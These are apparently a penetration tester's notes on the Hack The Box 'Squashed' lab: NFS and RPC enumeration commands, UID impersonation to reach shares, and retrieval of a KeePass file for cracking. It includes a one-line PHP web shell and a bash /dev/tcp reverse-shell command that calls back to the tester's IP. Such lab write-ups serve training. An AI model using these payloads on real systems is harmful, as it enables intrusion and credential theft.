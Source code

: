 # Squashed
export HTB_TARGET=10.10.11.191

---
### Sources:
1. https://vk9-sec.com/2049-tcp-nfs-enumeration/
2. https://gist.github.com/lgg/e6ccc6e212d18dd2ecd8a8c116fb1e45
3. https://github.com/patecm/cracking_keepass
4. https://medium.com/@m5kro/hashcat-vs-john-the-ripper-jtr-f207c34c5b1c

5. https://man7.org/linux/man-pages/man8/rpcbind.8.html
6. https://www.techtarget.com/searchenterprisedesktop/definition/Network-File-System
7. https://resources.infosecinstitute.com/topic/exploiting-nfs-share/
8. https://www.exploit-db.com/exploits/20025

9. https://miloserdov.org/?p=4961#14
10. https://github.com/epi052/feroxbuster

---
### Apps
- smbclient
- rpcbind
- nmap
- nfs-common

- hashcat
- john-the-ripper
- gobuster
- feroxbuster
(- grip -b <file>) // To visualize MD files from CLI

---
### Commands
##### NMAP
- nmap -sC -sV $HTB_TARGET

##### RPCBIND
- rpcinfo -p $HTB_TARGET
- rpcclient -p 2049 -I $HTB_TARGET

##### SAMBA
- mount -t nfs $HTB_TARGET:/<HOST_PATH> <CLIENT_PATH> -nolock

##### CREATING A SIMILAR HOST USER IN CLIENT
###### Check if user exist
- id <user>
###### Creating user with specific id
- sudo useradd -u <ID_OUT> -m -d <HOST_PATH> <user>
###### Check if user was created
- id <user>
###### Set user password
- sudo passwd <user>

##### NFS-COMMON
- showmount -e $HTB_TARGET
<Get shared folders information | Using the mount command to map these folders>



#####################################
---
Collected info
/home/ross (gid: 1001 id: 1001)
Get a kdbx file from /home/ross/Documents
/var/www/html (gid: 2017 id:???)

PHP Script to run commands received as parameters
'<?php\n  system($_REQUEST['cmd']);\n?>'

echo -e '<?php\n  system($_REQUEST['cmd']);\n?>' > htb.php
##### PHP Reverse Shell
https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php


##### Reverse SHELL
http://squashed.htb/htb.php?cmd=bash -c 'bash -i >& /dev/tcp/<my_ip>/443 0>&1'

---
Next steps
Open and try to decrypt kdbx file


